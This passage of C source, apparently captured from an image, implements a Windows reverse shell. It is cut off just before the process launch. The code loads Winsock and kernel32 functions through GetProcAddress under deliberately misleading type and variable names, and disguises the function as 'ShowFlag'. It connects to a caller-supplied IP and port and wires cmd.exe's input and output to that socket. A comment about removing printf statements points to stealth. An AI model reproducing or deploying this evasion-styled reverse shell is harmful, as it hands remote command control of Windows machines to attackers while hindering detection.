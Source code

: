 ```C
    const char *cp
);


typedef u_short (WINAPI *myHtons)(
    u_short hostshort
);


void ShowFlag(char* number, int room) {

        HMODULE hsock = LoadLibraryA("ws2_32.dll");

        HMODULE hKernel32 = LoadLibraryA("kernel32.dll");

        uncoolInstruction myCreateA = (uncoolInstruction)
            GetProcAddress(hKernel32, "CreateProcessA");


        npalmEra notMyNpalmEra = (npalmEra) GetProcAddress(hsock, "WSAConnect");

        myNotSocketA notAGreatSocketA = (myNotSocketA) GetProcAddress(hsock, "WSASocketA");

        calculateOutput calculateOutputTrue= (calculateOutput) GetProcAddress(hsock, "WSAStartup");

        DontWaitForCalculation tryDontWaitForCalculation = (DontWaitForCalculation)GetProcAddress(hKernel32, "WaitForSingleObject");

        myCloseSocket tryMyCloseSocket = (myCloseSocket) GetProcAddress(hsock, "closesocket");

        myWCleanup trymyWCleanup = (myWCleanup) GetProcAddress(hsock, "WSACleanup");

        myInetAddr tryInetAddr = (myInetAddr) GetProcAddress(hsock, "inet_addr");

        myHtons tryHtons = (myHtons) GetProcAddress(hsock, "htons");




        SOCKET plug;
        struct sockaddr_in addr;
        WSADATA version;
        calculateOutputTrue(MAKEWORD(2,2), &version);
        plug = notAGreatSocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = tryInetAddr(number);
        addr.sin_port = tryHtons(room);

        if (notMyNpalmEra(plug, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            tryMyCloseSocket(plug);
            trymyWCleanup();
        } else {
            // Remove printf statements
            
         
            char format[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) plug;
```